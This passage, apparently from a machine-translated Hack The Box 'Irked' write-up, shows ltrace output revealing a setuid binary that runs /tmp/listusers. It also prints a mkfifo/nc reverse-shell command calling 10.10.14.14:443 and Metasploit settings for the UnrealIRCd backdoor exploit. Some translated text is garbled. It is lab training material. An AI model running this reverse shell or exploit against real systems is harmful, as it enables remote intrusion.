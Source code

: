 
为了获得明确的外观，我将删除并运行它：`/tmp/listusers``ltrace`

    root@term:~/hackthebox/irked-10.10.10.117# ltrace ./viewuser 
    __libc_start_main(0x5655c57d, 1, 0xff983a54, 0x5655c600 <unfinished ...>
    puts("This application is being devleo"...This application is being devleoped to set and test user permissions
    )                                                   = 69
    puts("It is still being actively devel"...It is still being actively developed
    )                                                   = 37
    system("who"root     :1           2018-11-20 09:21 (:1)
    root     pts/3        2018-11-20 13:02 (tmux(2029).%9)
    root     pts/7        2018-11-20 10:32 (tmux(2029).%4)
     <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                        = 0
    setuid(0)                                                                                     = 0
    system("/tmp/listusers"sh: 1: /tmp/listusers: not found
     <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                        = 32512
    +++ exited (status 0) +++
    

在那里，我看到了对的呼叫，然后.`system("who")``system("/tmp/listeners")`

## 超越根

### 元堆栈 » 进程列表有效负载

当我在盒子上时，我在流程列表中看到了自己：

    ircd      3670  0.0  0.0   2276   596 ?        S    08:33   0:00 sh -c AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.14 443 >/tmp/f
    

我很好奇来自元潜移的有效载荷可能是什么样子的。我启动了元潜行，并准备运行漏洞利用：

    msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > options
    
    Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):
    
       Name    Current Setting  Required  Description
       ----    ---------------  --------  -----------
       RHOSTS  10.10.10.117     yes       The target address range or CIDR identifier
       RPORT   6697             yes       The target port (TCP)
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic Target
    

现在我运行它，并得到一个外壳：
